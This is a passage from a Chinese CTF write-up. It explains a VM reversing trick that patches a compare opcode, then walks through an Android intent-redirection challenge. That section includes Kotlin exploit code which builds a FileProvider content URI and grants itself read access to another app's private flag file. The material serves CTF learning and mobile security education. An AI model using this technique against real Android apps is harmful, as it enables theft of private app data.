 代码做了简单的注释，也对opcode进行了分组。

大体含义，先对8个寄存器进行初始化，然后寄存器内的数字进行运算，与dest中的每一位进行比较。如果全部比较成功，则正常退出返回。

由于只是内部的值参数运算，而dest全程未参与，只是用于比较。于是这里做了个trick，在比较的指令码11里记录当前运算的值，并将比较结果强行置为true。这样vm不会因值不相等而退出，而且执行完成的结果就是最终的运算结果了。

别漏了apk反编译的java代码里的一个逻辑，将运算结果与初始数组进行异或，还原出原始的字符串。

### mobile-11 重定向进阶

> 确定是bytectf的一道原题了，当时还有幸和同学一起做过

简单来说，flag是写在自己目录空间里的，其它应用没有直接访问的权限。而通过转发intent，就相当于使用转发中间人访问自己的资源，我们可以利用这次转发为资源授予读取权限。

难点在于怎么利用获取文件路径，构造provider的资源uri。

先看文件写入的地址，`new File(this.getFilesDir(), "flag")，getFilesDir()`获取的的自己目录空间下的/files目录。应用的目录空间在`/data/data/[package_name]/`下，所以这个文件写入的地址是`/data/data/com.mictf.intent1/files/flag`。

然后构造一个content URI。

格式为：`content://[authorities]/[name]/[file_relative_path]`

- authorities 在AndroidManifest.xml文件有提到，这里是android:authorities="com.mictf.flag"
- name 代表根路径的别称，这个在/res/xml/file_paths.xml文件里，这里是<root-path name="root" path="" />
- file_relative_path 就是上面写入的资源路径。

构造出来的contentURI就是

```text
content://com.mictf.flag/root/data/data/com.mictf.intent1/files/flag
```

写个intent利用一下：

```kotlin
fun attack() {
    val pwn = Intent("PWN")
    pwn.setClassName("com.mictf.intent1", "com.mictf.intent1.MainActivity")
    pwn.data =
        Uri.parse("content://com.mictf.flag/root/data/data/com.mictf.intent1/files/flag")
    pwn.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION or
        Intent.FLAG_GRANT_WRITE_URI_PERMISSION)
   
    startActivityForResult(pwn, 0)
}

override fun onActivityResult(requestCode: Int, resultCode: Int, data: Intent?) {
    super.onActivityResult(requestCode, resultCode, data)
    if (data?.action == "PWN") {
        val intentData = data.data
        val isr = InputStreamReader(contentResolver.openInputStream(intentData!!))
        val buf = CharArray(1024)
        val sb = StringBuffer("")
        while (-1 != isr.read(buf, 0, 1024)) {
            sb.append(String(buf))
        }
        val flag = String(sb)
        Toast.makeText(this, flag, Toast.LENGTH_LONG).show()
    }
}
```
